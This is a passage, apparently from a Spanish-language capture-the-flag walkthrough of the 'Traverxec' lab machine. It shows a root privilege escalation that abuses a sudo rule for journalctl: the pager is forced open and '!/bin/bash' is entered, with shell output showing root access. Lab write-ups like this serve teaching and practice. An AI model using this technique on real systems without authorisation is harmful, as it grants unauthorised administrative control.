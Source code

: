 No olvidemos cambiar el tamaño de la terminal (verticalmente).

Sabiendo esto, podemos intentar escalar los privilegios con el comando que se muestra en GTFOBins:

```shell
david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sun 2021-10-17 18:09:21 EDT, end at Sun 2021-10-17 19:25:33 EDT. --
Oct 17 18:34:04 traverxec sudo[3841]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty= ruser=www-data rhost=  user=www-data
Oct 17 18:34:06 traverxec sudo[3841]: pam_unix(sudo:auth): conversation failed
Oct 17 18:34:06 traverxec sudo[3841]: pam_unix(sudo:auth): auth could not identify password for [www-data]
!/bin/bash
root@traverxec:/home/david# id
uid=0(root) gid=0(root) groups=0(root)
root@traverxec:/home/david# cd /root
root@traverxec:~# ls
nostromo_1.9.6-1.deb  root.txt
root@traverxec:~# cut -c-5 root.txt
9aa36
```

Alternativamente, podemos configurar las filas stty para que tengan menos de 5 filas (líneas verticales):

```shell
david@traverxec:~$ stty rows 1
david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/bash
root@traverxec:/home/david# id
uid=0(root) gid=0(root) groups=0(root)
root@traverxec:/home/david#
```